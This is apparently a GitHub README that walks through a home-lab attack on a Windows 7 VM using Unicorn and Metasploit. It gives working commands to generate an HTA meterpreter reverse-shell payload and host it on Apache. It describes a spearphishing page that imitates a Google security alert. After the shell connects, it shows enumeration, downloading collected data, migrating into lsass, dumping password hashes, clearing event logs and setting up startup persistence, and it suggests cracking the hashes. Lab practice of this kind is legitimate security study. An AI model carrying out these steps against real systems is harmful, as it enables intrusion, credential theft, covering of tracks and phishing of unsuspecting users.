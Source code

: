 # Unicorn Demo 
I have built this demonstrate attacking a Windows 7 machine using Metasploit and Unicorn's HTA attack.  

## Environment Details

Kali Linux https://www.kali.org/downloads/  
Unicorn https://github.com/trustedsec/unicorn  
Windows 7 ISO en_windows_7_professional_with_sp1_x64_dvd_u_676939.iso https://the-eye.eu/public/MSDN/Windows%207/  
VMware Fusion 11.5 on MacOS Catalina 10.15.2. VirtualBox is a good alternative. 
VMware Fusion 10 had display issues with MacOS Catalina  
**I would NOT reccomend AWS/Azure/GCP as they may detect these activities as malicious** 

## Kali Setup

Download and install the latest Kali Linux 64-Bit Image https://www.kali.org/downloads/  
Once your VM is up and running, login and prepare Metasploit, Apache, and Postgresql for use.

```
apt update  
apt upgrade  
systemctl enable postgresql  
systemctl enable apache2  
systemctl start postgresql  
systemctl start apache2  
msfconsole  
exit
```
Those steps will update Kali, enable postgresql and apache to start automatically, and initiliaze your Metasploit database.

## Windows 7 Setup
 
Install Window 7s. My testing was done as a trial installation. 
During install I created an administrator account named "admin". If you use a different login you will need to make changes later on.  
If you are testing against an AV solution, ensure your policies are in "Detect Only" mode.  
Upgrade Internet Explorer to version 11 by downloading to your host system and then dragging the exe into your VM  
    Note that Windows 7 lacks the appropriate certificates to browse https sites without this update https://go.microsoft.com/fwlink/?LinkId=324629
Disable UAC. You can do this numerous ways.


## Unicorn Setup

Here I will show you how to grab your IP address, configure Unicorn, and modify options.  
Make note of your IP Address and replace my sample with your IP.  

```
ifconfig 
cd /opt
git clone https://github.com/trustedsec/unicorn.git
cd /opt/unicorn
python unicorn.py windows/meterpreter/reverse_tcp 172.16.105.131 4444 hta
```

If you are not familiar with vi here is a quick guide. https://www.thegeekdiary.com/basic-vi-commands-cheat-sheet/  
Use vi or your favorite text editor to modify the hta_attack/unicorn.rc file.  

```
vi hta_attack/unicorn.rc
```
In vi you can hit `i` to interact, cursor to the attributes, make your changes, hit the `esc` key, and enter `:wq` to save and quit  
Modify the following attributes and save your changes.  
```
AutoVerifySession true
AutoSystemInfo true
AutoLoadStdapi true
```
 
These steps generate the Unicorn HTA payload, copy the payload into apache, and configures the metasploit configuration to support the remaining steps.  
Review the README.md  

```
cat /opt/unicorn/README.md
```

## Payload Delivery

While there are multiple ways to deliver the payload I opted to put it into Apache on my Kali VM.

```
cp hta_attack /var/www/html
cd /var/www/html/hta_attack
```

In my case the payload URL is http://172.16.105.131/hta_attack/  
You can launch this page directly and Run/Open the Launcher.hta when prompted, or you can take additional steps for delivery 

## Download JAWS

```
cd /opt
git clone https://github.com/411Hall/JAWS.git
```
'cd /opt' and 'git clone https://github.com/411Hall/JAWS.git'  
Review the README.md  

```
cat /opt/JAWS/README.md\
```  

## Optional - Adding delivery via spearphishing

What I did next was generate a security event warning to my Google email. I copied the email and changed the "Check Activity" URL to the payload URL.  
I also went into my Google account to the Security settings page and saved this page.  
I then edited /var/www/html/hta_attack/index.html and inserted the google code below the existing code making a slight modification to tell users to run the Security Checker tool when prompted.  
It's not perfect but its good enough to demonstrate a phishing attempt. You could clean this all up to better replicate the FROM address on the email and ensure the page looks exactly like the Google page.

## Download Unicorn Demo

I have select a few commands to run as a script in the meterpreter environment as one way to collect information.  

```
cd /opt
git clone https://github.com/wond696/unicorn-demo.git
```

Review the README.md  

```
cat /opt/unicorn-demo/README.md
```  

### Unicorn Demo Assumptions

My script is based on being logged in as a user named "admin", you will have to make modifications if you used a different account in your Windows 7 VM.  
Ensure the quotes in the file remain quotes, some text editors try to change one to a reverse quote which breaks the process  
You can modify this however you want but I found that trying to run everything in the script dies after creating a shell and some commands cause a keyboard buffering problem, so I only do base collection in the script and upload the Launcher.hta and JAWS script.  

## Start the Metasploit listener

Move back to /opt where we will drop our collected file and start the Metasploit listener

```
cd /opt
msfconsole -r /var/www/html/hta_attack/unicorn.rc'  
```

This launches our listener using windows/meterpreter/reverse_tcp on port 4444.

## Launch the attack

Launch the attack by clicking the email link or browsing to http://172.16.105.131/hta_attack/ in Internet Explorer in your WIndows 7 VM.  
When prompted, run/open the Launcher.hta.   
This will generate a reverse tcp onto port 4444, you should see the session start.  
Once the session is connected we will interact with that session to collect information, migrate to a SYSTEM process, and clean up our activity leaving Launcher.hta to start automatically when the "admin" user logs in.

```
sessions -i
sessions -i 1
run /opt/unicorn-demo/demo.rc
```

That completes the commands in my demo.rc script. Next we will interact with the Windows shell, commands must be executed one at a time.

```
shell  
powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted 
powershell ./jaws-enum.ps1 exfil.txt
```

On your Windows 7 VM watch the C:\Users\Admin folder, when its done exfil.txt should be a little over 100k in size.  

```
exit  
download exfil.txt  
rm jaws-enum.ps1 
rm exfil.txt
run post/windows/manage/migrate
```

The last command uses meterpreter to migrate you to a new notepad.exe process.  

Next we will look for the pid of the Lsass.exe process and migrate to that.  
If the pid you see if different use the one you see.
Assuming that works we shoudl be able finish by performing a hashdump and clear the Windows Event Logs.  

```
ps  
migrate 592
hashdump' 
clearev
exit
```

For fun, copy/paste the hashes and see if you can convert them to plaintext in jacktheripper or https://crackstation.net/.  
This step may take some additional research on your part.

## Review exlif.txt

```
cat /opt/exfil.txt
```

## Results

If you have followed this precisely you should have gathered plenty of system information, have a exfil.txt file in /opt, Launcher.hta should now be persitent by being in the users Start Menu > Startup.  
Reboot your Windows 7 VM to test, it should reconnect as session 2 after you login.
